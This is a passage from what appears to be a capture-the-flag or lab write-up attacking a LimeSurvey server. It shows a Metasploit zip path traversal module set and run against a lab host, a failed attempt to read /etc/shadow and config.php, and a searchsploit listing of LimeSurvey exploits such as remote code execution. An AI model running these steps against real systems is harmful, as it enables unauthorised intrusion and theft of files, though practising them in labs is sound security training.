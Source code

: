 ```
msf6 auxiliary(scanner/http/limesurvey_zip_traversals) > set rhosts 10.10.176.108
rhosts => 10.10.176.108
msf6 auxiliary(scanner/http/limesurvey_zip_traversals) > set rhosts 10.10.21.46
rhosts => 10.10.21.46
msf6 auxiliary(scanner/http/limesurvey_zip_traversals) > run

[+] File stored to: /home/kali/.msf4/loot/20220401044739_default_10.10.21.46__476588.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/limesurvey_zip_traversals) >
```
So the exploit worked but, it looks like changing the file does not allow to download other files such as `/etc/shadow` or the one we need to answer the first question `/application/config/config.php`.

Let's look for an exploit.

```
$ searchsploit limesurvey                                                                     
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
LimeSurvey (PHPSurveyor 1.91+ stable) - Blind SQL Injection                       | php/webapps/18508.txt
LimeSurvey (phpsurveyor) 1.49rc2 - Remote File Inclusion                          | php/webapps/4156.txt
LimeSurvey 1.52 - 'language.php' Remote File Inclusion                            | php/webapps/4544.txt
LimeSurvey 1.85+ - 'admin.php' Cross-Site Scripting                               | php/webapps/35787.txt
LimeSurvey 1.92+ build120620 - Multiple Vulnerabilities                           | php/webapps/19330.txt
LimeSurvey 2.00+ (build 131107) - Multiple Vulnerabilities                        | php/webapps/29789.txt
LimeSurvey 3.17.13 - Cross-Site Scripting                                         | php/webapps/47386.txt
LimeSurvey 4.1.11 - 'File Manager' Path Traversal                                 | php/webapps/48297.txt
LimeSurvey 4.1.11 - 'Permission Roles' Persistent Cross-Site Scripting            | php/webapps/48523.txt
LimeSurvey 4.1.11 - 'Survey Groups' Persistent Cross-Site Scripting               | php/webapps/48289.txt
LimeSurvey 4.3.10 - 'Survey Menu' Persistent Cross-Site Scripting                 | php/webapps/48762.txt
LimeSurvey 5.2.4 - Remote Code Execution (RCE) (Authenticated)                    | php/webapps/50573.py
LimeSurvey < 3.16 - Remote Code Execution                                         | php/webapps/46634.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
